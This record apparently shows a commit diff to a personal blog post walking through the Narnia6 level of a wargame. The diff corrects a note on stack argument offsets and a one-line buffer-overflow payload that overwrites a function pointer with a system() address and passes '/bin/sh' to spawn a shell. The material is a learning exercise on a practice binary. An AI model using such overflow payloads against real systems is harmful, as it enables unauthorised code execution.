

Before and after one commit to karthik-balu/karthik-balu.github.io, a Jekyll site: the page built from _posts/2018-11-05-Cybersecurity-Narnia6.html, in a window 1280 px wide and 900 px high, scrolled down 1852 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Narnia6_fixes

```diff
--- a/_posts/2018-11-05-Cybersecurity-Narnia6.html
+++ b/_posts/2018-11-05-Cybersecurity-Narnia6.html
@@ -44,12 +44,12 @@ category: projects
       Snap: <br>
       <img src="/static/images/projects/p15/i2.png" class="image-center image-biggest" />
 
-      <li>Now pass this as argument to file after 8 bytes of "A"s. Where to put the "/bin/sh" to this function is the next question. Function's store their arguments generally at %esp+8,$esp+16 and so on. So We need to store "/bin/sh" 8 bytes from function call. We have 8 bytes of b2 in between after which we could give "/bin/sh"</li>
+      <li>Now pass this as argument to file after 8 bytes of "A"s. Where to put the "/bin/sh" to this function is the next question. Function's store their arguments generally at %ebp+8,%ebp+12 and so on(Formula is <b>%(ebp +8 +4*(N-1))</b>). So We need to store "/bin/sh" 8 bytes from function call. We have 8 bytes of b2 in between after which we could give "/bin/sh"</li>
       <li>Now construct the payload and run the program.</li>
 
       <pre class="prettyprint">
         <code>
-        /narnia/narnia6 "$(python -c "print 'A'*8 + '\x50\xc8\xe4\xff')" "$(python -c "print 'A'*8 + '\bin\sh')"
+        /narnia/narnia6 "$(python -c "print 'A'*8 + '\x50\xc8\xe4\xff')" "$(python -c "print 'A'*8 + '/bin/sh')"
       </code>
       </pre>
 
```
